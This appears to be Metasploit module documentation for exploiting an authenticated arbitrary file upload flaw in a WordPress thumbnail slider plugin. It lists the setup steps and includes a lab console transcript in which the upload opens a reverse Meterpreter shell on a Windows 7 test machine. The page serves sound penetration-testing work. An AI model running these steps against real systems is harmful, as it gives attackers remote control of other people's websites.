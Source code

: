 
## Vulnerable Application

  This module exploits an arbitrary file upload vulnerability in Responsive Thumbnail Slider Plugin v1.0 for WordPress post authentication. 

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use [exploit/multi/http/wp_responsive_thumbnail_slider_upload]```
  4. Do: ```set RHOSTS [IP]```
  5. Do: ```set TARGETURI [URI]```
  6. Do: ```set USERNAME [USERNAME]```
  7. Do: ```set PASSWORD [PASS]```
  8. Do: ```run```
  9. You should get a shell.

## Scenarios

### Test on Windows 7 x86 running WordPress v4.9.7

  ```
  msf5 > use exploit/multi/http/wp_responsive_thumbnail_slider_upload 
  msf5 exploit(multi/http/wp_responsive_thumbnail_slider_upload) > set rhosts 192.168.37.165
  rhosts => 192.168.37.165
  msf5 exploit(multi/http/wp_responsive_thumbnail_slider_upload) > set targeturi wordpress
  targeturi => wordpress
  msf5 exploit(multi/http/wp_responsive_thumbnail_slider_upload) > set username test
  username => test
  msf5 exploit(multi/http/wp_responsive_thumbnail_slider_upload) > set password password
  password => password
  msf5 exploit(multi/http/wp_responsive_thumbnail_slider_upload) > check
  [*] 192.168.37.165:80 The target service is running, but could not be validated.
  msf5 exploit(multi/http/wp_responsive_thumbnail_slider_upload) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444 
  [*] WordPress accessed
  [+] Logged into WordPress
  [+] Successful upload
  [*] Sending stage (37775 bytes) to 192.168.37.165
  [*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.165:54322) at 2018-07-26 14:41:02 -0500

  meterpreter > getuid
  Server username: lab (0)
  meterpreter > sysinfo
  Computer    : WIN7-LAB
  OS          : Windows NT WIN7-LAB 6.1 build 7601 (Windows 7 Ultimate Edition Service Pack 1) i586
  Meterpreter : php/windows
  meterpreter >

  ```
